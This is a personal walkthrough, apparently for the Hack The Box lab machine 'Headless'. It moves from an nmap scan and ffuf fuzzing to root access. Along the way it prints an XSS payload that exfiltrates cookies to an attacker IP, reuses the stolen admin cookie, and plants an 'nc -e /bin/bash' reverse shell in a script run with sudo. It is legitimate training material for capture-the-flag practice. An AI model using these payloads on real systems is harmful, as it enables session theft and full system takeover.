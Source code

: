 
# Task List

## Task 1: Highest TCP port available
- From next command: `nmap -sC -sV --min-rate 100 -vvv [IP]`

**Result:**
- Scanning 10.10.11.8 [1000 ports]
- Discovered open port 22/tcp on 10.10.11.8
- Discovered open port 5000/tcp on 10.10.11.8

## Task 2: Title of the page if the site detects an attack in the contact support form

- Log in to the web page at `IP:5000`
- Execute `<script>alert("TestMessage")</script>`

**Result:** Hacking Attempt Detected  
_Client Request Information_

## Task 3: Name of the cookie set for a logged-in user

- From the "Client Request Information," get the "Cookie" parameter

**Result:** is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

## Task 4: Relative URL of the page requiring authorization on Headless

- Command using FFUF: `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://IP:5000/FUZZ`
- Explanation: `ffuf (wordlist parameter) (wordlist path) (objective parameter) (objective url)`

**Result:** 
- 10.10.11.8:5000/support
- 10.10.11.8:5000/dashboard *Response*

## EXTRA: Access to the dashboard

- Start an HTTP server with Python on port 8001: `python3 http.server 8001`
- Send a request to the /support directory with Burp Suite
- Change any label content with the XSS exploit: `<script>var i=new Image(); i.src="http://xx.xx.xx.xx:8001/?cookie="+btoa(document.cookie);</script>`, replacing `XX` with your IP.
- Use the Proxy and Repeater in Burp Suite to send multiple modified requests
- Check the server for cached data

**Result:**  
xx.xx.xx.xx - - [29/Jul/2024 14:00:56] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -

**Action:** Decrypt the cookie (Base64):  
`echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d`

**Result:** is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0% 

**Action 2:** Use the decrypted cookie to access the `/dashboard`

**Result:** Access Guaranteed

## Task 5: Parameter name on POST requests to /dashboard with a vulnerability

- Identify the form type

**Result:** Date

## Task 6: Name of the user the web application is running as

- Gain access to the machine
- Hint: Use a reverse shell and `nc` with the admin cookie

**Result:**  
Access to the machine  
User: dvir  
Use `python3 -c "import pty; pty.spawn('/bin/bash')"` to spawn a shell

## Task 7: Submit USER flag

- Use `ls -la` to list files in the home directory and find `user.txt`
- Use `cat user.txt`

**Result:** Submission of the USER flag

## Task 8: Full path to the script `dvir` can run without a password

- Use the command: `sudo -l`

**Result:** `/usr/sh/syscheck`

## Task 9: Script called with a relative path by `syscheck`

- Inspect the `syscheck.sh` script

**Result:** `initdb.sh`

## Task 10: Submit the flag in the root user's home directory

- Modify `initdb.sh` to append: `nc -e /bin/bash xx.xx.xx.xx PORT`
- Open a new terminal and use `nc -lvp PORT`
- Execute the script

> [!IMPORTANT]  
> **Please use this as a hint or guide if you're blocked at some point of this machine, i make those files for myself and to help some friends that are also doing those machines.**


> [!NOTE]  
> **Try to get as far as you can by yourself or you will never learn to make machines alone. Hope you the best and happy hacking <3.**

**Extra Hint:** Use the same process as for the user shell access

**Result:** Access to a shell as the root user  
Navigate to the root directory and use `cat root.txt`
